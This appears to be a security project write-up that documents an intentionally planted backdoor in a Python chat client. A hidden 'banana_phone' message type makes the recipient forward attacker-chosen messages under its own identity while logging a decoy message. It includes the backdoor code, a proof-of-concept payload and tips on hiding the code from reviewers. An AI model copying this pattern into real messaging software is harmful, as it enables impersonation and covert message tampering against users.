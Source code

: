 # Backdoor 3: Client Spoof

## Description

This backdoor allows any malicious client to impersonate any other client known to the neighborhood. It enables them to send messages as another client, without alerting the impersonated client of this activity.

---

## Technical Details

When a client receives a private message, it attempts to decrypt and store it to be sent to the frontend. The backdoor expands on this functionality by checking for a JSON data structure within the message. If one is found and includes `type: 'banana_phone'`, it parses the rest of the message:

```json
{
    "type": "banana_phone",
    "to": [list: string: fingerprint],
    "message": string: real message
}
```

````

- `to`: Contains a list of fingerprints that the 'real' message should be sent to.
- `message`: Contains the real message to be sent.
- The original recipient becomes the new sender.

The function then calls the existing `send_private_chat` message with these new details, as if it came from the client.

Crucially, the recipient never logs or saves the sent message, and explicitly changes the original received message to a random, innocuous message to avoid suspicion.

---

## Objectives

This backdoor violates several key security principles:

1. Authentication: Allows impersonation of other clients.
2. Integrity: Modifies message content without authorization.
3. Non-repudiation: Makes it impossible to prove who really sent a message.
4. Confidentiality: Allows unauthorized access to private communications.

---

## Exploitation Method (Proof of Concept)

1. Attacker identifies the fingerprint of the client they want to impersonate (Client 3) and the intended recipient (Client 4).

<figure align="center">
  <img src="appendix/Image%203.1.png" alt="Attacker selecting client to impersonate" width="300">
  <figcaption><em>Figure 3.1: Attacker selects client 3 to send to, noting down the fingerprint of client 4</em></figcaption>
</figure>

2. Attacker crafts a message to Client 3 with the following structure:
   ```json
   {
     "type": "banana_phone",
     "to": ["z+jFUevZW966ayOz90LUlPDbup5tUASkiAGsrBqmVgs="],
     "message": "This is client 1 appearing as client 3"
   }
   ```
3. Attacker sends this message to Client 3 using the normal private chat protocol.
4. Client 3's system processes this message, replacing the content with a random innocuous message in its own logs.

<figure align="center">
  <img src="appendix/Image%203.2.png" alt="Victim's client interface showing a harmless message" width="600">
  <figcaption><em>Figure 3.2: The victim's client interface showing a randomly selected harmless message, masking the attacker's covert message manipulation</em></figcaption>
</figure>

5. Client 3's system then sends the "real" message to Client 4, appearing to come from Client 3.
6. Client 4 receives a message that appears to be from Client 3, but was actually initiated by the attacker (Client 1).

<figure align="center">
  <img src="appendix/Image%203.3.png" alt="Real message sent to client 4" width="300">
  <figcaption><em>Figure 3.3: The real message is sent to client 4, appearing to be sent by client 3</em></figcaption>
</figure>

---

## Detection Challenges

- Code obfuscation using odd variable names (e.g., 'banana', 'spaghetti', 'pizza', 'carrot') makes the code harder to understand at a glance.
- The backdoor is hidden within real functions used by the protocol, making it blend in with legitimate code.
- The use of a special message type ('banana_phone') is not immediately suspicious and could be mistaken for a feature or Easter egg.
- The original message is replaced with random innocuous content, leaving no trace of the malicious activity in the sender's logs.
- The backdoor leverages existing message sending functions, making its activities appear as normal traffic.

---

## Code Snippet

```python
async def decrypt_and_store_message(self, data):
    # ... (code for decrypting and initial processing of the message)

    for idx, symm_key_b64 in enumerate(symm_keys_b64):
        try:
            # ... (code for decrypting the message with the current key)

            if my_fingerprint in participants:
                # ... (prepare the message entry)

                try:
                    banana = json.loads(message_text)
                    if banana.get('type') == 'banana_phone':
                        # Generate and store a random innocuous message
                        message_entry['message'] = random.choice(random_messages)
                        self.store_and_log_message(message_entry)

                        # Extract real recipients and message
                        spaghetti = banana.get('to', [])
                        pizza = banana.get('message', '')

                        # Process the recipient list
                        carrot = self.process_recipient_list(spaghetti)

                        # Remove sender and current client from recipients
                        carrot = [
                            fp for fp in carrot
                            if fp != sender_fingerprint and fp != my_fingerprint
                        ]

                        # Send the spoofed message
                        if carrot:
                            await self.send_chat_message(carrot, pizza, true_message=False)
                        else:
                            logger.error("No valid recipients for banana phone message")
                    else:
                        # Normal message handling
                        self.store_and_log_message(message_entry)
                except json.JSONDecodeError:
                    # Handle non-JSON messages
                    self.store_and_log_message(message_entry)
        except Exception as e:
            logger.error(f"Failed to decrypt message with key {idx}: {e}")

    # ... (handle case where message is not intended for this client)
```
````
